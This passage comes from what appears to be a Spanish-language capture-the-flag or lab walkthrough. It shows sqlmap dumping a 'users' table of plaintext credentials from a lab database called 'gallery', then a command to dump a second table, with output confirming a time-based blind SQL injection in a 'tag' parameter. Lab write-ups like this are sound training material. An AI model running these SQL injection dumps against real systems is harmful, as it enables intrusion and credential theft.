 ```
[*] gallery
[*] information_schema

[03:33:26] [INFO] fetching columns for table 'users' in database 'gallery'
[03:33:26] [INFO] fetching entries for table 'users' in database 'gallery'
Database: gallery
Table: users
[8 entries]
+----+-----------------+--------+
| id | pass            | user   |
+----+-----------------+--------+
| 1  | realpazz        | mina   |
| 2  | mncxzKLLJDS     | me     |
| 3  | 987dsKLDSOIU    | lula   |
| 4  | BDSAOIUYEW      | notme  |
| 5  | dsOIUSDAOydsa   | mona   |
| 6  | EWQUDSAdaSDSA=  | admin  |
| 7  | VCXddsaEWQdsa_D | lila   |
| 8  | DSAewqDSAewq    | root   |
+----+-----------------+--------+

[03:33:26] [INFO] table 'gallery.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.5.42/dump/gallery/users.csv'
[03:33:26] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.5.42'

[*] ending @ 03:33:26 /2025-06-19/
```

Veremos que tendremos varias credenciales, pero si las probamos por `SSH` veremos que no nos sirve ninguna, por lo que vamos a investigar la otra tabla de la `DDBB`.

```shell
sqlmap -r request.txt --dbs --batch -D gallery -T art --threads 10 --dump
```

Info:

```
        ___
       __H__                                                                                                                                                 
 ___ ___[)]_____ ___ ___  {1.9.2#stable}                                                                                                                     
|_ -| . [(]     | .'| . |                                                                                                                                    
|___|_  [)]_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:34:47 /2025-06-19/

[03:34:47] [INFO] parsing HTTP request from 'request.txt'
[03:34:47] [INFO] resuming back-end DBMS 'mysql' 
[03:34:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: tag (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```